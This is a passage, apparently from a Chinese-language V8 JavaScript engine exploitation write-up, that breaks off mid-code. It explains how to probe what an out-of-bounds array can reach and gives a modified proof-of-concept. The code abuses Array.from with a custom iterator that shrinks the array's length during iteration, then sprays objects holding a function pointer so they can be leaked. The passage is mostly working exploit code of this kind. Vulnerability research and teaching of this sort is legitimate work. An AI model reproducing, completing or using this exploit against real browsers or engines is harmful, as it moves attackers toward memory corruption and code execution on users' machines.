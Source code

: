 ![IMAGE](/assets/resources/FDE6A78FF2BD3FCDE4E694A21DBB9F10.jpg)

那么我们知道内存里有一个可以越界读写的数组，那么这个数组能读写到哪些东西呢？

我们来做个测试，如下我们修改Poc，在最前面定义一个数组对象`objs`，同时为了防止我们的`oobArray`被回收掉，将长度改为`5`，并且在迭代结束之后往`objs`加100个对象，每个对象里面写上我们要泄漏的数据，然后利用越界读去暴搜，这里我们将要泄漏的对象写为函数指针
```
function func_to_overwrite() {
    let sum = 0;
    for (let i = 0;i < 0x100; i++) {
        sum += i;
    }
    return sum;
}

for (let i = 0; i < 1000; i++) {
    func_to_overwrite();
}

console.log("======> func_to_overwrite");
%DebugPrint(func_to_overwrite);

let maxSize = 1024 * 8;
let objs = [];
let oobArray = [1.1];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
    {
        counter : 0,
        next() {
            let result = this.counter++;
            if (this.counter == maxSize) {
                oobArray.length = 5;
                for (let i = 0; i < 100; i++) {
                    let obj = {'a': 0x4321, 'b': func_to_overwrite};
                    objs.push(obj);
                }
                return {done: true};
            } else {
                return {value: result, done: false};
            }
```